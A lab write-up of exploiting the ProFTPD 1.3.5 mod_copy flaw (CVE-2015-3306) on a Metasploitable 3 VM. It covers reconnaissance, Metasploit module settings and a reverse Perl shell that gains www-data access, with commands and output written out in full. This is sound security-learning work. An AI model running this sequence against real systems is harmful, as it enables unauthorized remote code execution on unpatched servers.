

# Metasploitable 3 (Ubuntu) ProFTPD 1.3.5 exploit

This document will demonstrate abusing a vulnerability in the ProFTPD 1.3.5 service on the Metasploitable 3 computer.

**Demonstration last edited on the 8th of May 2022**

IP addresses in my network:    
172.28.128.3  
172.28.128.4  

1. Identify  
```
$ curl -I 172.28.128.4
HTTP/1.1 200 OK
Content-Length: 1116928
Content-Type: text/html
Last-Modified: Sun, 24 Apr 2022 09:13:27 GMT
Accept-Ranges: bytes
ETag: "f08b168fbb57d81:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Sat, 07 May 2022 11:54:55 GMT

$ curl -I 172.28.128.3
HTTP/1.1 200 OK
Date: Sat, 07 May 2022 11:54:58 GMT
Server: Apache/2.4.7 (Ubuntu)
Content-Type: text/html;charset=UTF-8
``` 

Machine 3 is Ubuntu Linux.  
Machine 4 is a Windows Server.  

I will go for the Ubuntu:  
172.28.128.3

2. Scanning 

For the purposes of this exercise I will be loud and just start with the service scan. So there was little to no passive recon so-far.   

```
$ sudo msfconsole
msf6 > db_nmap -sV 172.28.128.3
[*] Nmap: Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-07 15:19 EEST
[*] Nmap: 'mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers'
[*] Nmap: Nmap scan report for 172.28.128.3
[*] Nmap: Host is up (0.00030s latency).
[*] Nmap: Not shown: 991 filtered tcp ports (no-response)
[*] Nmap: PORT     STATE  SERVICE     VERSION
[*] Nmap: 21/tcp   open   ftp         ProFTPD 1.3.5
[*] Nmap: 22/tcp   open   ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
[*] Nmap: 80/tcp   open   http        Apache httpd 2.4.7
[*] Nmap: 445/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: 631/tcp  open   ipp         CUPS 1.7
[*] Nmap: 3000/tcp closed ppp
[*] Nmap: 3306/tcp open   mysql       MySQL (unauthorized)
[*] Nmap: 8080/tcp open   http        Jetty 8.1.7.v20120910
[*] Nmap: 8181/tcp closed intermapper
[*] Nmap: MAC Address: 08:00:27:AA:EE:5A (Oracle VirtualBox virtual NIC)
[*] Nmap: Service Info: Hosts: 127.0.1.1, UBUNTU; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 10.94 seconds
```
3. Analysis

Port | Service | Version | Explanation | Vulnerabilities / Other comments
---|---|---|---|----
21 | ftp | ProFTPD 1.3.5 | FTP Server<br /> Old version (Current 1.3.7c) | CVE-2015-3306 The mod_copy module in ProFTPD 1.3.5 allows remote attackers to read and write to arbitrary files via the site cpfr and site cpto commands. 
22 | ssh | OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0) | Service for incoming ssh connections.<br />Old version (Current 9.0) | Multiple vulnerabilities (https://nvd.nist.gov/vuln/search/results?cves=on&cpe_version=cpe:/a:openbsd:openssh:6.6.1p1). CVE-2016-1908 Looks interesting: "The client in OpenSSH before 7.2 mishandles failed cookie generation for untrusted X11 forwarding and relies on the local X11 server for access-control decisions, which allows remote X11 clients to trigger a fallback and obtain trusted X11 forwarding privileges by leveraging configuration issues on this X11 server, as demonstrated by lack of the SECURITY extension on this X11 server."  
80 | http | Apache httpd 2.4.7 | Webserver.<br />Old version | [CVEDetails.com](https://www.cvedetails.com/vulnerability-list.php?vendor_id=45&product_id=66&version_id=524064&page=1&hasexp=0&opdos=0&opec=0&opov=0&opcsrf=0&opgpriv=0&opsqli=0&opxss=0&opdirt=0&opmemc=0&ophttprs=0&opbyp=0&opfileinc=0&opginf=0&cvssscoremin=0&cvssscoremax=0&year=0&cweid=0&order=1&trc=12&sha=3eeeb0ab09ce2009265ac70c832b1d1d8baf43b9) Mostly CVEs with very affect on system and no access gains
445 | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP) | Allows applications on separate computers to communicate over a local area network. Version not verified | In order to recon more, would like to know more specific version number  
631 | ipp | CUPS 1.7 | The primary mechanism for Ubuntu printing and print services.<br />Old version(Current 2.3.3op2) | CVE-2015-1158  CVE-2007-4351 CVE-2008-0882
3000 | ppp | ? | ? | Closed
3306 | mysql | MySQL (unauthorized) | SQL service for database management. Shouldn't face the Internet |  
8080 | http | Jetty 8.1.7.v20120910 | Webserver.<br />Old version (Current 11.0.9) | 
8181 | intermapper | ? | ? | Closed

4. Exploitation

I decided to go with the ProFTP 1.3.5 and CVE-2015-3306

``` 
msf6 > search CVE-2015-3306

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/unix/ftp/proftpd_modcopy_exec  2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/proftpd_modcopy_exec

msf6 > info 0

       Name: ProFTPD 1.3.5 Mod_Copy Command Execution
     Module: exploit/unix/ftp/proftpd_modcopy_exec
   Platform: Unix
       Arch: cmd
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2015-04-22

Provided by:
  Vadim Melihow
  xistence <xistence@0x90.nl>

Available targets:
  Id  Name
  --  ----
  0   ProFTPD 1.3.5

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
  RPORT      80               yes       HTTP port (TCP)
  RPORT_FTP  21               yes       FTP port
  SITEPATH   /var/www         yes       Absolute writable website path
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                yes       Base path to the website
  TMPPATH    /tmp             yes       Absolute writable path
  VHOST                       no        HTTP server virtual host

Payload information:
  Avoid: 0 characters

Description:
  This module exploits the SITE CPFR/CPTO commands in ProFTPD version 
  1.3.5. Any unauthenticated client can leverage these commands to 
  copy files from any part of the filesystem to a chosen destination. 
  The copy commands are executed with the rights of the ProFTPD 
  service, which by default runs under the privileges of the 'nobody' 
  user. By using /proc/self/cmdline to copy a PHP payload to the 
  website directory, PHP remote code execution is made possible.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2015-3306
  https://www.exploit-db.com/exploits/36742
``` 

So in short the exploit should give me the access to remotely copy files from the system to where ever I wish. Sounds neat. All I need is to set the RHOSTS to my intended target, set my payload (the code that will be run on target) and run exploit.  

```
msf6 > set RHOSTS 172.28.128.3
RHOSTS => 172.28.128.3
msf6 > use 0

msf6 exploit(unix/ftp/proftpd_modcopy_exec) > show payloads

Compatible Payloads
===================

   #  Name                                 Disclosure Date  Rank    Check  Description
   -  ----                                 ---------------  ----    -----  -----------
   0  payload/cmd/unix/bind_awk                             normal  No     Unix Command Shell, Bind TCP (via AWK)
   1  payload/cmd/unix/bind_perl                            normal  No     Unix Command Shell, Bind TCP (via Perl)
   2  payload/cmd/unix/bind_perl_ipv6                       normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   3  payload/cmd/unix/generic                              normal  No     Unix Command, Generic Command Execution
   4  payload/cmd/unix/reverse_awk                          normal  No     Unix Command Shell, Reverse TCP (via AWK)
   5  payload/cmd/unix/reverse_perl                         normal  No     Unix Command Shell, Reverse TCP (via Perl)
   6  payload/cmd/unix/reverse_perl_ssl                     normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   7  payload/cmd/unix/reverse_python                       normal  No     Unix Command Shell, Reverse TCP (via Python)
   8  payload/cmd/unix/reverse_python_ssl                   normal  No     Unix Command Shell, Reverse TCP SSL (via python)

msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set PAYLOAD payload/cmd/unix/bind_awk
PAYLOAD => cmd/unix/bind_awk
```

RHOSTS is set to my target 172.28.128.3.  
PAYLOAD is payload/cmd/unix/bind_awk.

I ran the exploit:
```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > exploit

[*] 172.28.128.3:80 - 172.28.128.3:21 - Connected to FTP server
[*] 172.28.128.3:80 - 172.28.128.3:21 - Sending copy commands to FTP server
[-] 172.28.128.3:80 - Exploit aborted due to failure: unknown: 172.28.128.3:21 - Failure copying PHP payload to website path, directory not writable?
[*] Exploit completed, but no session was created.
```

A problem. So apparently something wrong with the target folder. i.e. no write permissions. At this point I had to do some online searches as I'm not all too familiar with metasploit. I managed to lose the exact site I got the answer to this problem from but the trick was to edit the folder path as follows: 
```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set SITEPATH /var/www/html
SITEPATH => /var/www/html

msf6 exploit(unix/ftp/proftpd_modcopy_exec) > show options

Module options (exploit/unix/ftp/proftpd_modcopy_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.28.128.3     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       HTTP port (TCP)
   RPORT_FTP  21               yes       FTP port
   SITEPATH   /var/www/html    yes       Absolute writable website path
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to the website
   TMPPATH    /tmp             yes       Absolute writable path
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/bind_awk):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST  172.28.128.3     no        The target address


Exploit target:

   Id  Name
   --  ----
   0   ProFTPD 1.3.5
```

And once again I tried the exploit: 
```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > exploit

[*] 172.28.128.3:80 - 172.28.128.3:21 - Connected to FTP server
[*] 172.28.128.3:80 - 172.28.128.3:21 - Sending copy commands to FTP server
[*] 172.28.128.3:80 - Executing PHP payload /1F2P3.php
[*] Started bind TCP handler against 172.28.128.3:4444
[*] Exploit completed, but no session was created.
```

No more errors but a session was not created. I tried it with other payloads but none of them worked to fix the issue.  
Steps to troubleshoot:  
- Checked that my firewall was turned off.
- Double checked all the IP addresses.
- Tried switching the listening port on my end (set LPORT random_numbers).
- Tried running the exploit multiple times and afterwards using the `debug` command to show previous logs. No errors related to these runs.
- Used the `check` command which returned that the target is vulnerable to this exploit. 
- Rebooted my computer and the target

The connection worked in a way because the .php files appeared in the Metasploitable 3 target folder as expected, as can be seen from the following:



I will give up for now and continue on this later.  

**8th of May 2022:**  

Time to conitinue. The problem was using bind-shells. After using the perl reverse shell with LHOST set to my own IP the connection worked like a charm. See commands and settings from the following:  
```
msf6 > search ProFTPD 1.3.5   # The targeted service at port 21 as seen from the nmap scan

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/unix/ftp/proftpd_modcopy_exec  2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/proftpd_modcopy_exec

msf6 > use 0
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set RHOSTS 172.28.128.3     # Set the target
RHOSTS => 172.28.128.3
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set SITEPATH /var/www/html  # Set the path to a writable directory
SITEPATH => /var/www/html
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set LHOST 172.28.128.5      # Set the localhost to point to my own IP
LHOST => 172.28.128.5
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > show payloads         

Compatible Payloads
===================

   #  Name                                 Disclosure Date  Rank    Check  Description
   -  ----                                 ---------------  ----    -----  -----------
   0  payload/cmd/unix/bind_awk                             normal  No     Unix Command Shell, Bind TCP (via AWK)
   1  payload/cmd/unix/bind_perl                            normal  No     Unix Command Shell, Bind TCP (via Perl)
   2  payload/cmd/unix/bind_perl_ipv6                       normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   3  payload/cmd/unix/generic                              normal  No     Unix Command, Generic Command Execution
   4  payload/cmd/unix/reverse_awk                          normal  No     Unix Command Shell, Reverse TCP (via AWK)
   5  payload/cmd/unix/reverse_perl                         normal  No     Unix Command Shell, Reverse TCP (via Perl)
   6  payload/cmd/unix/reverse_perl_ssl                     normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   7  payload/cmd/unix/reverse_python                       normal  No     Unix Command Shell, Reverse TCP (via Python)
   8  payload/cmd/unix/reverse_python_ssl                   normal  No     Unix Command Shell, Reverse TCP SSL (via python)

msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set PAYLOAD 5               # Use reverse_perl cmd payload
PAYLOAD => cmd/unix/reverse_perl
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > show options        

Module options (exploit/unix/ftp/proftpd_modcopy_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.28.128.3     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       HTTP port (TCP)
   RPORT_FTP  21               yes       FTP port
   SITEPATH   /var/www/html    yes       Absolute writable website path
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to the website
   TMPPATH    /tmp             yes       Absolute writable path
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.28.128.5     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   ProFTPD 1.3.5


msf6 exploit(unix/ftp/proftpd_modcopy_exec) > run

[*] Started reverse TCP handler on 172.28.128.5:4444 
[*] 172.28.128.3:80 - 172.28.128.3:21 - Connected to FTP server
[*] 172.28.128.3:80 - 172.28.128.3:21 - Sending copy commands to FTP server
[*] 172.28.128.3:80 - Executing PHP payload /LVocqO9.php
[*] Command shell session 1 opened (172.28.128.5:4444 -> 172.28.128.3:48575 ) at 2022-05-09 06:15:50 -0400

whoami
www-data
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
echo 'pwned' | tee pwned.txt            
pwned
cat pwned.txt   
pwned
```